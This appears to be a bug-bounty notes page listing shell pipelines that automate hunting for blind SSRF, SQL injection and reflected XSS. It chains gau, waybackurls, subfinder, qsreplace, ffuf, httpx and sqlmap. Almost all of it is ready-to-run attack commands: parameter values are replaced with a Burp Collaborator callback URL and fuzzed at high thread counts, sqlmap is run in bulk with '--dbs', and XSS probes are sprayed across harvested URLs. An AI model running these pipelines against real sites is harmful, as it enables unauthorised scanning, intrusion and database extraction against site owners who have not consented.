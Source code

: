 KaleShiri



TOOLS used for the exploitation:
gf (tomnomnom) — https://github.com/tomnomnom/gf
qsreplace(tomnomnom) — https://github.com/tomnomnom/qsreplace)
ffuf — https://github.com/ffuf/ffuf
gau(Corben) — https://github.com/lc/gau
waybackurls(tomnomnom) — https://github.com/tomnomnom/waybackurls



urls from web achieve using waybackurls and gau . Here is command i used for that
Command used:
gau -subs example.com
waybackurls example.com


grep out all the urls containing parameters and sort them uniquely and save it in file. So that can fuzzing for blind ssrf
Command used:
gau -subs example.com; subfinder -d example.com -silent |waybackurls | gf ssrf | sort -u >> testblindssrf.txt


i used qsreplace to replace all parameter value with burpcollaborator server payload and fuzz it with ffuf.
.Command used:
cat testblindssrf.txt | qsreplace “http://4v0er435p7gx4lx6432c7bdylprff4.burpcollaborator.net" >> ssrfuzz.txt
ffuf -c -w ssrfuzz.txt -u FUZZ -t 200



waybackurls google.com | grep "\\.js" | uniq | sort


--------------------------------------------------------------------------------------
Automate finding ssrf:
waybackurl targetme.com >> blindssrftesturl.txt
gau -subs targetme.com >> blindssrftesturl.txt
subfinder -d example.com -silent | waybackurls >> vul3.txt
After Getting all URLS we will sort all the URL and resolve it remove false positive:
cat blindssrftesturl.txt | sort -u |anew | httpx |tee -a prefinal_ssrftesturl.txt
cat prefinal_ssrftesturl.txt | gf ssrf >> final_ssrftesturl.txt
cat final_ssrftesturl.txt |qsreplace “Burp collaborator server” >> ssrf_auto-ffuf.txt
ffuf -c -w ssrf_auto-ffuf.txt -u FUZZ



----------------------------------------------------------------------------------------
Automate SQLi
waybackurl targetme.com >> blindssrftesturl.txt
gau -subs targetme.com >> blindssrftesturl.txt
subfinder -d example.com -silent | waybackurls >> vul3.txt
cat vul1.txt vuln2.txt vul3.txt | grep “=” | sort -u | grep “?” | httpx -silent >> FUZZvul.txt
sqlmap -m FUZZvul.txt --random-agent --dbs 


--------------------------------------------------------------------------------------------
reflected xss
gau -subs example.com >> vul1.txt
waybackurls example.com >> vul2.txt
subfinder -d example.com -silent | waybackurls >> vul3.txt
cat vul1.txt vuln2.txt vul3.txt | grep “=” | sort -u | grep “?” | qsreplace “xsst<>”| httpx -silent >> FUZZvul.txt
xargs -a /root/magicparameter/ssrf.txt -I@ bash -c ‘for url in $(cat FUZZvul.txt); do echo “$url&@=xsst<>”;done’ | httpx -http-proxy http://127.0.0.1:8080


------------------------------------------------------------------------------------------
gau -subs example.com >> vul1.txt
waybackurls example.com >> vul2.txt
subfinder -d example.com -silent | waybackurls >> vul3.txt
cat vul1.txt vuln2.txt vul3.txt | grep “=” | sort -u | grep “?” | httpx -silent >> FUZZvul.txt

---------------------------------------------------------------------------------------
